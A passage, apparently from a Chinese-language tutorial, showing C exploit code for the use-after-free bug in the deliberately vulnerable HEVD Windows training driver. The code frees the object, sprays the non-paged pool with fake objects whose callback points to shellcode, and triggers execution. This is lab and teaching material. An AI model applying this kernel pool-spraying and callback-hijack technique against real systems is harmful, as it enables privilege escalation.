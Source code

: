 ```
            }
 
            Status = STATUS_SUCCESS;
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
    }
 
    return Status;
}

```

### 2. 利用过程

```
// 1.调用AllocateUaFObjectNonPagedPool
 
DeviceIoControl(hDevice, HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL, NULL, NULL, NULL, 0, &recvBuf, NULL);
 
// 2.调用 FreeUaFObjectNonPagedPool()函数释放对象
printf("Start to call FreeUaFObject()...\n");
DeviceIoControl(hDevice, HEVD_IOCTL_FREE_UAF_OBJECT_NON_PAGED_POOL, NULL, NULL, NULL, 0, &recvBuf, NULL);
 
printf("Start to write shellcode()...\n");
//申请假的chunk
PUSE_AFTER_FREE fake_UseAfterFree = (PUSE_AFTER_FREE)malloc(sizeof(FAKE_USE_AFTER_FREE));
//指向我们的payload
fake_UseAfterFree->countinter = ShellCode;
 
RtlFillMemory(fake_UseAfterFree->bufffer, sizeof(fake_UseAfterFree->bufffer), 0x41);
 
// 3.调用AllocateFakeObjectNonPagedPool函数，，，，池喷射，，成功后，会申请到跟g_UseAfterFreeObjectNonPagedPool指向一样的的内困空间，callback被改为我们的payload
 
for (int i = 0; i < 5000; i++)
{
    DeviceIoControl(hDevice, HEVD_IOCTL_ALLOCATE_FAKE_OBJECT_NON_PAGED_POOL, fake_UseAfterFree, 0x60, NULL, 0, &recvBuf, NULL);
}
 
//4.调用UseUaFObjectNonPagedPool，执行payload，此处的callback函数早已经被替换成我们的payload，所以再次调用为设置为NUll的内存指针g_UseAfterFreeObjectNonPagedPool后直接执行我们的payload代码
DeviceIoControl(hDevice, HEVD_IOCTL_USE_UAF_OBJECT_NON_PAGED_POOL, NULL, NULL, NULL, 0, &recvBuf, NULL);

```
